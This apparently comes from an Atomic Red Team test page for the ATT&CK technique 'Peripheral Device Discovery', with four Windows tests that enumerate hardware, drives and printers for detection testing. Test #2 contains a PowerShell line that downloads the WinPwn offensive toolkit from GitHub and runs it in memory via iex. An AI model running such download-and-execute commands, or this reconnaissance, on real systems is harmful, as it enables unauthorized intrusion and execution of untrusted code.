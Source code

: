 # T1120 - Peripheral Device Discovery
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1120)
<blockquote>Adversaries may attempt to gather information about attached peripheral devices and components connected to a computer system.(Citation: Peripheral Discovery Linux)(Citation: Peripheral Discovery macOS) Peripheral devices could include auxiliary resources that support a variety of functionalities such as keyboards, printers, cameras, smart card readers, or removable storage. The information may be used to enhance their awareness of the system and network environment or may be used for further actions.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Win32_PnPEntity Hardware Inventory](#atomic-test-1---win32_pnpentity-hardware-inventory)

- [Atomic Test #2 - WinPwn - printercheck](#atomic-test-2---winpwn---printercheck)

- [Atomic Test #3 - Peripheral Device Discovery via fsutil](#atomic-test-3---peripheral-device-discovery-via-fsutil)

- [Atomic Test #4 - Get Printer Device List via PowerShell Command](#atomic-test-4---get-printer-device-list-via-powershell-command)


<br/>

## Atomic Test #1 - Win32_PnPEntity Hardware Inventory
Perform peripheral device discovery using Get-WMIObject Win32_PnPEntity

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb4dbf2-2dca-4597-8678-4d39d207a3a5






#### Attack Commands: Run with `powershell`! 


```powershell
Get-WMIObject Win32_PnPEntity | Format-Table Name, Description, Manufacturer > $env:TEMP\T1120_collection.txt
$Space,$Heading,$Break,$Data = Get-Content $env:TEMP\T1120_collection.txt
@($Heading; $Break; $Data |Sort-Object -Unique) | ? {$_.trim() -ne "" } |Set-Content $env:TEMP\T1120_collection.txt
```

#### Cleanup Commands:
```powershell
Remove-Item $env:TEMP\T1120_collection.txt -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #2 - WinPwn - printercheck
Search for printers / potential vulns using printercheck function of WinPwn

**Supported Platforms:** Windows


**auto_generated_guid:** cb6e76ca-861e-4a7f-be08-564caa3e6f75






#### Attack Commands: Run with `powershell`! 


```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
printercheck -noninteractive -consoleoutput
```






<br/>
<br/>

## Atomic Test #3 - Peripheral Device Discovery via fsutil
Performs pheripheral device discovery utilizing fsutil to list all drives.

**Supported Platforms:** Windows


**auto_generated_guid:** 424e18fd-48b8-4201-8d3a-bf591523a686






#### Attack Commands: Run with `command_prompt`! 


```cmd
fsutil fsinfo drives
```






<br/>
<br/>

## Atomic Test #4 - Get Printer Device List via PowerShell Command
This test uses PowerShell to list printers on a Windows system, demonstrating a discovery technique attackers might use to 
gather details on connected devices. Using Get-Printer, they can view information on all available printers, identifying 
potential devices for further targeting.

**Supported Platforms:** Windows


**auto_generated_guid:** 5c876daf-db1e-41cf-988d-139a7443ccd4






#### Attack Commands: Run with `powershell`! 


```powershell
Get-Printer
```






<br/>
